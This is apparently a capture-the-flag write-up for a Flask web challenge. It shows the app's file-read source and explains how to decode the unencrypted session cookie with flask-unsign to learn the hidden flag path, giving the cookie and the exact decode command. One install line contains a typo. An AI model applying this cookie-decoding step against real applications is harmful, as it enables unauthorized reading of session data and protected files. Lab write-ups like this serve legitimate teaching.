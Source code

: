# solution

```
SECRETS_PATH = 'secrets/'
ALLOWED_CHARACTERS = string.ascii_letters + string.digits + '/'

app = Flask(__name__)
app.secret_key = os.urandom(32)

# create sample file
with open(f'{SECRETS_PATH}/sample', 'w') as f:
    f.write('Hello, world :)')

# create flag file
flag_dir = SECRETS_PATH + os.urandom(32).hex()
os.mkdir(flag_dir)
flag_path = flag_dir + '/flag'
with open('/flag', 'r') as f0, open(flag_path, 'w') as f1:
    f1.write(f0.read())


@app.route('/', methods=['GET'])
def get_index():
    # safely save the secret into session data
    session['secret'] = flag_path

    # provide file read functionality
    path = request.args.get('path')
    if not isinstance(path, str) or path == '':
        return render_template('index.html', msg='input the path!')

    if any(ch not in ALLOWED_CHARACTERS for ch in path):
        return render_template('index.html', msg='invalid path!')

    full_path = f'./{SECRETS_PATH}{path}'
    if not os.path.isfile(full_path):
        return render_template('index.html', msg='invalid path!')

    try:
        with open(full_path, 'r') as f:
            return render_template('index.html', msg=f.read())
    except:
        abort(500)
```

Take a look at source code, we need to know the path to read the flag (of course we dont bruce force). I see that the session will show us the right path if we can decode session.

```
.eJwtxrERgCAMBdBdWABCCOHcBsKPjZXYee6uhc27d4cFO3GF7c-KlSbTyIYPUcmczSaoF1hqA1aaqQpznarFXRJQVeFJhlBPHv3oe3he7HUbCw.ZyLjmA.wdCZMarbsDxlfferhvofRs3uQDM
```

Its not jwt, but refer to my experience, is maybe flask cookie (i dont know i call it right). So to decode the session, we need download this tool.

1. sudo apt install pipx
2. pipx install flask-unsign
3. pinx run flask-unsign **payload**

You can add the path in bash to make it shorter but I'm lazy so please just chatgpt for me. Here is the payload to decode cookie session

```
pipx run flask-unsign --decode --cookie '.eJwtxrERgCAMBdBdWABCCOHcBsKPjZXYee6uhc27d4cFO3GF7c-KlSbTyIYPUcmczSaoF1hqA1aaqQpznarFXRJQVeFJhlBPHv3oe3he7HUbCw.ZyLjmA.wdCZMarbsDxlfferhvofRs3uQDM
'
```

![alt text](image.png)<br>
So just put this path to submit field to get flag. Good luck.
